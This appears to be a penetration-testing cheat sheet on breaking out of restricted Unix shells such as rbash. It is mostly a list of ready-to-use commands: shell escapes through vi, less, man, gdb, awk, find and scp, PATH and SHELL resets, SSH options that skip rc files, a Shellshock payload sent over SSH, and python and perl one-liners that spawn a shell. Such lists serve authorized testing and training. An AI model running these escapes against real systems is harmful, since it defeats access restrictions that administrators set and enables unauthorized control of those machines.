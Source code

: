 # Reconnaissance
Find out as much as you can about the environment

`env` to see the exported variuables
` echo $PATH` to find out thwht the path is set to
` echo $SHELL` to find out what SHELL we are in usually rbash or rksh
Try basic commands to see whats allowed. Some commands let you execture other systtem commands often bypassing shell restricitons
- ls
- pwd
- cd
- ..
- env
- set
- export
- vi/vim -> `:!/bin/sh`
- cp
- mv
- ftp -> `!/bin/sh`
- gdb -> `!/bin/sh`
- more -> `!/bin/sh`
- less -> `!/bin/sh`
- man -> `!/bin/sh`
- `scp -S /tmp/getMeOut.sh x y:`
- `awk 'BEGIN {system("/bin/sh")}'`
- `find / -name someName -exec /bin/sh \;`

https://gtfobins.github.io/ is a great doc for all the binaries

# Quick wins
if `/` are allowed in commands try:
`/bin/sh`

If you can set the PATH or SHELL variables try:
`export PATH=/bin:/usr/bin:$PATH`

`export SHELL=/bin/sh `

If you can copy files into existing PATH try
`cp /bin/sh /some/dir/from/PATH; sh `

# Other stuff to try
Some commands let you execture other systtem commands often bypassing shell restricitons

## Comming in from the outside

Use SSH on your machine to execute commands before the remote shell is leaded
```
ssh restriced@10.20.30.40 -t "/bin/sh"
```

start remote sehll without loading `rc`
```
ssh restriced@10.20.30.40 -t "bash --noprofile"
```

try shelshock if vulnerable
```
ssh restriced@10.20.30.40 -t "() { :; }; /bin/bash"
```

## Try it

write files using `tee`
```
echo "some bad code" | tee script.sh
```
invoke the shell through a sciropitn language
```
python -c 'import os; os.system("/bin/bash")'
```
```
perl -e 'exec "/bin/sh"'
```
